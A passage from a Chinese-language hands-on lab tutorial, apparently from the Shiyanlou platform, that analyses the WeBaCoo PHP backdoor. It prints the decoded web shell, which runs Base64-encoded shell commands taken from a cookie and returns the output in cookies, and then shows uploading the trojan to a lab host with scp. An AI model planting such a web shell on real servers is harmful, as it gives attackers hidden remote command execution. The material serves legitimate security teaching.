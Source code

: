 ![图片描述](https://dn-simplecloud.shiyanlou.com/uid/ff207c4ac994ae597a753f238bd6b2de/1481618755418.png-wm)

引用 `Base64` 模块进行解密，得到攻击者的最初意图代码。由解密出来的代码，可以明显的看出，代码第一步先判断 Cookie 是否设置。这里我们再回顾下 WeBaCoo 是什么原理介绍部分。其中有如下这一句话，文档中指出了 Shell 命令编码后，隐藏在 Cookie 头中：

> WeBaCoo 创建 PHP 木马程序，使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码后，隐藏在 Cookie 头中。

而代码中 `2>&1` 的意思是：

> 对于 & 1 更准确的说应该是文件描述符 1，而 1 一般代表的就是 STDOUT_FILENO，实际上这个操作就是一个 dup2（2） 调用。他标准输出到 all_result，然后复制标准输出到文件描述符 2（STDERR_FILENO），其后果就是文件描述符1和2指向同一个文件表项，也可以说错误的输出被合并了。

```
# 函数 isset() 用于检测变量是否设置，这里的作用是 Cookie 是否设置
if(isset($_COOKIE['cm'])){

    # 启动
    ob_start();
    
    # 使用 base64_decode 对 shell 命令进行解码
    system(base64_decode($_COOKIE['cm']).' 2>&1');
    
    # 设置 cookie 参数，并使用 base64_encode 进行编码
    setcookie($_COOKIE['cn'],$_COOKIE['cp'].base64_encode(ob_get_contents()).$_COOKIE['cp']);
    
    # 关闭
    ob_end_clean();
}
```


### 4.3 上传到目标靶机

通过上面的木马源码分析，我们了解到 WeBaCoo 创建 PHP 木马文件之后，对木马文件使用 Base64 加密，并使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码，隐藏在 Cookie 头中。一般情况下，在生成木马文件后，会将木马程序上传到目标主机，进而感染目标主机，建立会话通道。输入如下命令，将木马上传：

```
# 将木马文件，复制上传到目标主机
scp hello.php shiyanlou@192.168.122.1:/tmp
```
**注意： 连接实验楼宿主主机的账号为 `shiyanlou`，对应的密码是 `shiyanlou`:**

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993526850.png-wm)

实验楼 Ubuntu 环境下，默认开启的是 `nginx` 服务。在上传木马文件后，输入命令关掉 `nginx` 服务，开启 `apache2` 服务，用以测试 PHP 木马：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993507282.png-wm)

```
# 关掉 nginx 服务程序
sudo service nginx stop

# 开启 apache2 服务程序
sudo service apache2 start
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480993732499.png-wm)
